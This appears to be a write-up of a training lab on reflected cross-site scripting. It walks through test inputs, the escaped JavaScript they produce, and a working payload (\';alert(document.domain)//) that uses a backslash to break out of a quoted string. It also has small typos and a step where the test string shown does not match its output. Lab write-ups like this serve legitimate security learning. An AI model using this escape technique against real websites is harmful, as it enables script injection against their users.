 ### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

_____

Analysis and Exploit:

1. Performed a test serch using the string **'\<"test1">**, intercepted the response and the embedded Javascript is:

```html
<script>
    var searchTerms = '\'&lt;&quot;test1&quot;&gt;';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

The single quote is escaped while angle brackets and double quotes are HTML-encoded.

2. Performed a second test search using the string **'\<"test1">**, intercepted the response

```html
<script>
    var searchTerms = '\\'&lt;&quot;test1&quot;&gt;';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

The backslash added by the filter on user input used to escape single quotes is not escaped so the backslash in the test string escapes the one added by the filter.  
This means that the single is no longer escaped and the script syntax is broken because every semicolon is interpreted as a Javascript statement terminator.

3. Used the payload **\';alert(document.domain)//** to exploit the Reflected XSS vulnerability

```html
<script>
    var searchTerms = '\\';alert(document.domain)//';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

_____

Script notes:

3. GET **/?search=\';alert(document.domain)//**

If "Congratulations, you solved the lab!" in the response, the exploit worked and the lab is solved.